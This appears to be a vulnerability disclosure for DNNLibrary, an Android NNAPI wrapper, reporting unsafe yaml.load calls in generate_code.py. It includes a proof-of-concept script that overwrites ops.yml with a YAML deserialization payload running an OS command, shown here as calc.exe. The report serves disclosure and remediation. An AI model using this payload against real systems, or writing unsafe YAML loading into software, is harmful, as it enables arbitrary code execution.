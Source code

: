 ## ✍️ Description
DNNLibrary is a wrapper of NNAPI ("DNNLibrary" is for "daquexian's NNAPI library). It lets you easily make the use of the new NNAPI introduced in Android 8.1. You can convert your onnx model into daq and run the model directly.
* **Vulnerability description**
Vulnerable to YAML deserialization attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
```
# vulnerable part of code
https://github.com/JDAI-CV/DNNLibrary/blob/master/generate_code.py#L329
Note :
to apply a complete fix please do fix all the yaml.load() in the functions mentioned in the main().
```
```python
# exploit.py
import os
#os.system("git clone https://github.com/JDAI-CV/DNNLibrary.git")
os.chdir("DNNLibrary/")
os.system("rm ops.yml")
payload = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
open("ops.yml","w+").write(payload)
os.system("python3 generate_code.py")

```

![](https://user-images.githubusercontent.com/43377443/105158203-ba2e7a80-5b33-11eb-8bab-e0ec49b18f58.PNG)

